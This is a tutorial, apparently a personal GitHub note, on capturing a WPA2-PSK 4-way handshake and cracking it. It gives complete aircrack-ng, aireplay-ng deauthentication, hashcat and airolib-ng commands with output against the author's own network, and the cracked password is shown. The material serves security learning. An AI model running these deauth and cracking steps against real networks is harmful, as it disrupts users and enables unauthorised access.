









* The scope of this guide is to crack the password of a Wireless Network that is using WPA or WPA2-PSK mode.

## Wireless Networks Recap 

* The scope of this guide is to hack a Wi-Fi Network that is using WPA2-PSK.
* Security protocols to protect Wireless Networks (not exhaustive list...):
	* **Wi-Fi Protected Access (WPA)**: uses Temporal Key Integrity Protocol (TKIM) with RC4.
	* **Wi-Fi Protected Access 2(WPA2)**: uses AES CCMP
	* **Wi-Fi Protected Access 3 (WPA3)**: major change is that it uses the Simultaneous Authentication of Equals Handshake (aka Dragonfly) for key exchange.
* **We are interested in WPA and WPA2 because both uses the 4-way handshake to exchange keys and this is where we go in and crack the password.**
* WPA2 comes in two modes:
	* WPA2-PSK (Personal)
	* WPA2-MGT (Enterprise)
* Our focus is with WPA-PSK. Enterprise works in a different manner.
* "PSK" stands for Pre-Shared Key.

### Open System Authentication (OSA)

* Ever wonder how devices are able to connect to a Wireless Network?
* Well, the standard 802.11 defines two authentication methods to join a Wireless Network.
	* **Open System Authentication.**
	* **Shared Key Authentication.**
* When you go to a coffee shop and join its Wireless Network, Open System Authentication is most probably the authentication method being used.
* You connect without the need to provide any type of password. Provided there are no captive portals, you simply connect and can browse the Internet.
* So, OSA offers open authentication to a Wireless Network. 
* **If the Wireless Network requires WPA2 encryption, this will happen after the OSA.**
* OSA follows the following process:
1. Client sends "**Authentication Request**".
2. Access Point (AP) replies with "**Authentication Response**".
3. Client sends "**Association Request**".
4. AP replies with "**Association Response**".



* **After this is done, WPA/WPA2 can begin.**
* This is what we are after.
* When you go to one of your friend's house and ask the password to connect to the Wi-Fi.
* This is how the Open System Authentication looks like in Wireshark:



### WPA/WPA2-PSK

* Encrypted security protocol that protects internet traffic on a Wireless Network.
* Most likely this is the encryption used by your home router.
* During this protocol, the 4-way handshake happens in order to exchange keys that will encrypt the traffic.
* The vulnerability that we can exploit here is that, if we can capture the 4-way handshake, we can brute-force it to crack the password that matches the hash in the capture.
* The goal here is to capture the 4-way handshake, and then perform a dictionary/brute-force attack (we can explore differences later on...) to see what password produced the same hash observed in the capture.
* **All passwords can be cracked**, it is just a matter of resources. From a security standpoint, the idea is to create a password that would be very hard to brute-force.
*  The main idea here is that, if you have the password, you can re-create all the keys.
*  Honestly, that is all you need to know.

* But if you want to take a closer look at what keys are created during the 4-way handshake, read below.
* First, let's clear a possible confusion. In WPA2-PSK the **passphrase, password, PSK and PMK are *almost* equivalent.**
	* passphrase == password. The one you use to connect to the AP.
	* PSK is a 256 bit key string *derived* from the passphrase plus other stuff.
	* PMK == PSK.
* With that out of the way, let's have a quick overview of the generated keys during the 4-way handshake. If there is something wrong of that you feel that needs clarification, please do not hesitate to comment.
	* **Pairwise Transient Key (PTK)**: Encrypts unicast traffic between a client station and the access point.
		* ``` PTK = PRF (PMK + Anonce + SNonce + Mac (AA)+ Mac (SA)) ```
			* Anonce is a random number generated by the AP.
			* Snonce is a random number generated by the client.
	* **Group Temporal Key (GTK)**: Encrypts  broadcast and multicast traffic between an access point and multiple client devices.
	* **Pairwise Master Key (PMK)**: is the PSK. This is true in WPA2-PSK (Personal) mode. **PMK is known on all client and APs**. The PMK is use to create the PTK. From what I understand, this takes the password + SSID, feeds in into a PRF, performs 4096 iterations  and outputs a string of 256 bits.
		* ``` PMK=PBKDF2(PRF, passwrod, salt, c, dkLen) ```
			* PRF: Pseudo Random Function. Essentially a function that feeds in itself to generate an output of arbitrary-length.
			* c = iterations to perform.
			* dkLen = desired length of key.
			* For our case:
			* ``` PMK=PBKDF2(HMAC-SHA1, passphrase, SSID, 4096,256) ```
	* **Group Master Key (GMK)**: used to create the GTK.
	* **Master Session Key (MSK)**: The master session is the first key which is generated either from 802.1X/EAP or derived from PSK authentication.

* A 4-way handshake looks as follows:

* **1. Message 1 of 4**
	*  AP sends Anonce to the client.



* Client constructs PTK.
	* Remember that, to consturct the PTK we need the "Anonce + the Snonce (client generates this) + MAC of AP + MAC of Client"
	* PMK is known for both client and AP.
	* The only missing piece was the "Anonce", but now AP has shared this with the client.

* **2. Message 2 of 4**
	* Client sends Snonce + Message Integrity Check (MIC)
		* MIC is used by the AP to verify data has not been tampered with.



* As AP now has the Snonce, it can create the PTK. If the hash of this value matches that MIC received by the client, then we are good to go and we know client has the correct PMK/PSK.

* **3. Message 3 of 4**
	* AP sends GTK + MIC.
	* AP tells client to install this key.



* **4. Message 4 of 4**
	* Client confirms keys have been installed.



* Attempt of a diagram looks something like this:



* If you can generate the PMK, you can generate the PKT that client sends to AP and then AP creates the GTK that ultimately, sends to the client and the client install this key.
* The only unknown variable in PMK formula is the passphrase.
* So, let's crack it!

## Cracking Wi-Fi Password
* We have discuss the general idea: capture a 4-way handshake and then crack it.
* Process:
	* **Set your Wireless Network card in Monitor mode**.
		* Network cards are configured to drop all packets that are not destined to it. When setting it in "monitor" mode, it will keep all packets even though they may not been addressed to it.
	* Scan which Wireless Network are you able to reach.
	* Select a Wireless Network to attack.
	* **Start listening on that network**.
	* Wait for some device to connect (passive attack) or start a de-authentication attack (active attack)to force a device (or all) to reconnect back again.
	* Once you have capture the 4-way handshake, you can take that capture offline and perform you brute-force attack.
	* Perform brute-force/dictionary attack.

### Setting Wireless Network Card In Monitor Mode

* Be default, wireless network cards will drop all packets that are not address to the corresponding device. In order for us to capture all the packets that are not address to us, we need to set our network card in "monitor" mode.
* General Process:
	* Bring interface down.
	* Put it in monitor mode.
	* Bring interface up.

```bash
➜  02 iwconfig
lo        no wireless extensions.

wlp1s0    IEEE 802.11  ESSID:"Casa SH 5G"  
          Mode:Managed  Frequency:5.18 GHz  Access Point: 64:13:AB:1B:92:B0   
          Bit Rate=866.7 Mb/s   Tx-Power=23 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=70/70  Signal level=0 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:108   Missed beacon:0

ipv6leakintrf0  no wireless extensions.

docker0   no wireless extensions.

➜  02 sudo ifconfig wlp1s0 down                         
➜  02 sudo iwconfig wlp1s0 mode monitor
➜  02 sudo ifconfig wlp1s0 up          
➜  02 iwconfig
lo        no wireless extensions.

wlp1s0    IEEE 802.11  Mode:Monitor  Frequency:5.18 GHz  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
ipv6leakintrf0  no wireless extensions.

docker0   no wireless extensions.
```

* Wireless Network Card: wlp1s0.
* Mode:Monitor 

#### Checking & Killing Processes That May Interfere With The Capture

```bash
➜  02 sudo airmon-ng check wlp1s0

Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
 327482 avahi-daemon
 327484 avahi-daemon
 329834 NetworkManager
 329848 wpa_supplicant

➜  02 sudo airmon-ng check kill wlp1s0

You have entered an invalid channel "wlp1s0" which will be ignored

Killing these processes:

    PID Name
 329848 wpa_supplicant
 367374 avahi-daemon
 367378 avahi-daemon
```

### Scanning For Available Wi-Fi Networks:

```bash
sudo airodump-ng wlp1s0   
```



### Get Information From Target Access Point

```
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 64:13:AB:1B:92:AC  -46      238       49    0   2  130   WPA2 CCMP   PSK  Casa SH    
```

 * **Channel**: 2 
 * **ESSID**: Casa SH 
 * **BSSID**: 64:13:AB:1B:92:AC 

### Start Listening & Capturing Handshake

```bash
➜  02 sudo airodump-ng -c 2 --bssid 64:13:AB:1B:92:AC -w CasaSH-Capture-01 wlp1s0
 ```
  
* **-c**:  Indicate the channel(s) to listen to. By default airodump-ng hops on all 2.4GHz channels.
* **--bssid**: MAC Address of the Access Point.
* **-w / --write**: Is  the dump file prefix to use. If this option is not given, it will only show data on the screen. Beside this file a CSV file with the same filename as the capture will be created. This is where all the data packet will be written to.

### De-Authentication Attack

* By this point, we are listening to any connections for this Access Point and the idea is to capture a connection.
* We can patiently wait for a device to connect to this Access Point.
* Or we can force device to connect again by sending a "deauthentication" packet that will disconnect the client and the client will have to connect again.

 ```bash
 # For specific device
02 sudo aireplay-ng --deauth 5 -a <AP_MAC> -c <CLIENT_MAC> <int>

 # To all devices
02 sudo aireplay-ng -0 0 -a <AP_MAC> <int>
```
  
* The option "-0" is the short version of "--deauth". Both will send deauthentication packets. So, they are equivalent.
	  * --deauth 5 / -0 5: sends 5 deauthentication packets
	  * --deauth 0 / -0 0: sends deauthentication packets until stop.
  * -a: Access Point's MAC Address.
  * -c: Client's MAC Address.
* When you got the capture, the screen will display it (WPA handshake: ...):



### Perform Attack

* Brute-force VS dictionary attack:
	* A brute-force attack tries every possible combination.
	* A dictionary attack tries all passwords from a given list.
* Say we know the password is 8 characters long and it can have lower  and upper letters and numbers. The total number of possible combinations would be 62^8.
	* 26 lower letter
	* 26 upper letters
	* 10 numbers 
	* 62^8 = 218,340,105,584,896 possible combinations.
*   If your file have all those possible combinations (unlikely), then your dictionary attack would be a brute-force attack as well. If you have any less that than, it is a dictionary attack. 
*   This is assuming we know password is 8 characters long and that it does not contain any special characters.

* There are many files that you can download over the internet to conduct a dictionary attack. I ended up downloading the famous "rockyou.txt", which may not be the best for Wi-Fi password.
*  Put my password around the middle of the file (rockyou.txt).
*  The other option is for you to generate a custom dictionary list with tools such as crunch, cupp, etc.

#### aircrack-ng
	
```bash
➜  02 sudo aircrack-ng CasaSH-Capture-01.cap -w ../wordlists/rockyou.txt
Reading packets, please wait...
Opening CasaSH-Capture-01.cap
Read 3346 packets.

   #  BSSID              ESSID                     Encryption

   1  64:13:AB:1B:92:AC  Casa SH                   WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening CasaSH-Capture-01.cap
Read 3346 packets.

1 potential targets


                               Aircrack-ng 1.6 

      [00:00:14] 79189/14344393 keys tested (5828.72 k/s) 

      Time left: 40 minutes, 47 seconds                          0.55%

                           KEY FOUND! [ 5101997. ]


      Master Key     : AD 22 A9 73 97 44 9A 77 5A 49 E2 03 46 17 9E 55 
                       59 E8 9E F6 A3 42 5A EB 9F FB 75 5A 1D C1 DA 7E 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 11 7D C3 7C 39 D3 43 DA F8 27 23 EB DA 77 C3 A1 
```

*  **KEY FOUND! [ 5101997. ]**
*  **14 seconds.**

#### Hashcat

* This option tends to be faster.
* **Just watch out for the CPU's temperature**.  You do not want it to stay for a long time above 90 C. There are other tools that you can use to watch the temperature, but I did not want to download it, so ended up using:

```bash
# Linux
watch -n 5 cat /sys/class/thermal/thermal_zone*/temp
```

* To do this we first need to convert the ".cap" file into a Hashcat compatible file.

```bash
➜  02 hcxpcapngtool CasaSH-Capture-01.cap -o CasaSH-Capture-01.HashCompatible
```


```
➜  02 hashcat -a 0 -m 22000 CasaSH-Capture-01.HashCompatible ../wordlists/rockyou.txt 
hashcat (v6.2.5) starting

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 7 3700U with Radeon Vega Mobile Gfx, 7907/15879 MB (2048 MB allocatable), 8MCU

Minimum password length supported by kernel: 8
Maximum password length supported by kernel: 63

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache built:
* Filename..: ../wordlists/rockyou.txt
* Passwords.: 14344393
* Bytes.....: 139921519
* Keyspace..: 14344386
* Runtime...: 0 secs

1ddb64255459c8af9453f5f9b450d95f:6413ab1b92ac:36bae440e8e3:Casa SH:5101997.
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 22000 (WPA-PBKDF2-PMKID+EAPOL)
Hash.Target......: CasaSH-Capture-01.HashCompatible
Time.Started.....: Wed Nov  6 08:30:13 2024 (6 secs)
Time.Estimated...: Wed Nov  6 08:30:19 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (../wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     5309 H/s (8.76ms) @ Accel:384 Loops:64 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 86345/14344386 (0.60%)
Rejected.........: 55625/86345 (64.42%)
Restore.Point....: 78850/14344386 (0.55%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: jasmin123 -> adam2326
Hardware.Mon.#1..: Temp: 63c Util: 96%

Started: Wed Nov  6 08:30:11 2024
Stopped: Wed Nov  6 08:30:21 2024
➜  02 
```


* **-m**: hash-type.
	* 22000: WPA-PBKDF2-PMKID+EAPOL
* **-a**: attack-mode
	* 0:Straight

* **1ddb64255459c8af9453f5f9b450d95f:6413ab1b92ac:36bae440e8e3:Casa SH:5101997.**
* **Around 10 seconds.**

#### Rainbow Table

* This is the fastest method, creating and computing the Rainbow tables can be time consuming...

* Create a text file essid.txt with the name of the ESSID to attack.

```bash
# 1. Create Rainbow table
airolib-ng <MyRainbowTable> --import essid <essid.txt>

# 2. Import Password list
airolib-ng <MyRainbowTable> --import passwd <Password List>

# 3. Compute all passwords in Rainbow Table
airolib-ng <MyRainbowTable> --batch

# 4. Clean all unnecessary things in rainbow table
airolib-ng <MyRainbowTable> --clean all

# 5.Attacking...
sudo aircrack-ng -r RT CasaSH-Capture-01.cap
Reading packets, please wait...Aircrack-ng 1.6 

      [00:00:00] 28160/0 keys tested (294696.31 k/s) 

      Time left: 724488149 days, 12 hours, 33 minutes, 4 seconds     inf%

                           KEY FOUND! [ 5101997. ]


      Master Key     : AD 22 A9 73 97 44 9A 77 5A 49 E2 03 46 17 9E 55 
                       59 E8 9E F6 A3 42 5A EB 9F FB 75 5A 1D C1 DA 7E 

      Transient Key  : C3 FF 6C 2F 16 A4 FE B7 4D EA 89 5A 91 4E 40 2A 
                       10 6C E6 A7 F0 D7 24 5F 82 67 CE A1 3E 9D 89 20 
                       6F 9B A6 BC 8F 60 D3 55 25 4A 15 8F 55 41 8F 5C 
                       15 08 8A 44 B0 F7 4B C8 54 E7 17 10 50 3B F2 53 
```

*  **KEY FOUND! [ 5101997. ]**
*  **Not even 1 second.**


## Resources

* [4-Way Handshake](https://www.wifi-professionals.com/2019/01/4-way-handshake)
* [The 4-way handshake WPA/WPA2 encryption protocol](https://medium.com/@alonr110/the-4-way-handshake-wpa-wpa2-encryption-protocol-65779a315a64)
* [WPA/WPA2 cracking, PMKID, Evil Twin](https://www.cybersecura.com/en/post/overview-of-attacks-and-threats-to-wifi-in-2022)
* [WPA and WPA2 4-Way Handshake](https://networklessons.com/cisco/ccnp-encor-350-401/wpa-and-wpa2-4-way-handshake)
* [RFC2898](https://www.rfc-editor.org/rfc/rfc2898)
* [Encryption algorithm used in WPA/WPA2](https://crypto.stackexchange.com/questions/28975/encryption-algorithm-used-in-wpa-wpa2)
* [Capturing and Cracking WPA/WPA2 WiFi Passwords with Kali Linux](https://predatech.co.uk/capturing-and-cracking-wpa-wpa2-wifi-passwords/)
* [¿Qué es PBKDF2? ](https://keepcoding.io/blog/que-es-pbkdf2/)
* [Wireless Authentication Methods](https://networklessons.com/cisco/ccna-200-301/wireless-authentication-methods)
* [802.11 Security](https://community.nxp.com/t5/Wireless-Connectivity-Knowledge/802-11-Wi-Fi-Security-Concepts/ta-p/1163551)
* [hcxtools](https://github.com/ZerBea/hcxtools)